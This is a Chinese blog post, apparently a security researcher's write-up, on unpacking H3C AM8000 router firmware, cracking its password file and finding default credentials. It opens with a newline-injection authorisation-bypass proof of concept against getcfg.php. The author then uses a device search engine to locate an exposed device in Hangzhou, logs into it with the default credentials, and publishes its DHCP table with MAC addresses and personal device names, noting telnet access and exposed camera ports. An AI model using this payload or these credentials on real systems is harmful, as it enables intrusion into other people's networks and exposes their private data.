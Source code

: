 ![截屏2021-07-16 下午3.55.48.png](https://i.loli.net/2021/07/16/QxocdSr2PITnA9J.png)

`Poc: curl -d "SERVICES=DEVICE.ACCOUNT&attack=ture%0aAUTHORIZED_GROUP=1" "http://{ip.addr}:{ip.port}/info/getcfg.php"`

## 一：*H3C-AM8000V100R008*

- 下载地址：[*H3C - AM8000V100R008*](https://download.h3c.com.cn/download.do?id=2280937)

### 1x01 *binwalk*提取*systemfiles*

官网显示是2015年上传的包，下载下来直接在ubuntu里解包`➜ binwalk -Me AM8000V100R008.bin`，尴尬的是所有的文件就直接出来了么

![截屏2021-08-12 下午4.42.31.png](https://i.loli.net/2021/08/12/gZJaWD2EswuilcN.png)

发现`shadow`，解出来看看：`➜ john -format=md5crypt {file/path}  && john --show {file/path}`

![截屏2021-08-12 下午4.45.13.png](https://i.loli.net/2021/08/12/gmQKfkXq5w2nDsA.png)

### 1x02 默认帐号密码

> fofa: userLogin.asp

既然有了默认账号密码，去找找看有没有`幸运儿`，查看`web.config`入口文件为`userLogin.asp`，那就直接指定语法；

#### # 来自杭州的幸运儿

![截屏2021-08-13 上午11.25.22.png](https://i.loli.net/2021/08/13/IoJDbNSjw61398x.png)

不光弱口令，还映射了n个内网端口到公网上，映射出来的端口是Hikvison的视频流端口和web管理，就不贴图了可以参考[Hikvision-ConfigurationFiles-decrypter](/help/Hikvision-ConfigurationFiles-decrypter)；

另外附上部分dhcp指向表自行感受一下：
```
5	F4:83:CD:00:62:CD	192.168.x.7	TL-WDR5600
6	18:87:40:96:43:7F	192.168.x.8	RedmiK305G-2510
7	58:6B:14:26:B4:4C	192.168.x.9	guoqingdeiPhone
8	4C:CC:6A:AA:D0:45	192.168.x.10	wp-pjb
9	74:27:EA:AC:44:2D	192.168.x.11	yjy-jcb
10	40:F2:E9:37:04:96	192.168.x.13	IMM2-40f2e93704
```
当然也是支持`telnet`连接的：

![截屏2021-08-13 上午11.36.26.png](https://i.loli.net/2021/08/13/ZzPJSMpRnKqVNUQ.png)

#### [未完待续...]

## 参考

- [路由器文件系统与提取](https://www.cnblogs.com/blacksunny/p/7208451.html){:target="_blank"}
- [squashFS 文件系统](https://sabersauce.github.io/2016/07/28/squashFS-%E6%96%87%E4%BB%B6%E7%B3%BB%E7%BB%9F/){:target="_blank"}
- [路由器固件下的小试牛刀](https://www.anquanke.com/post/id/245530){:target="_blank"}

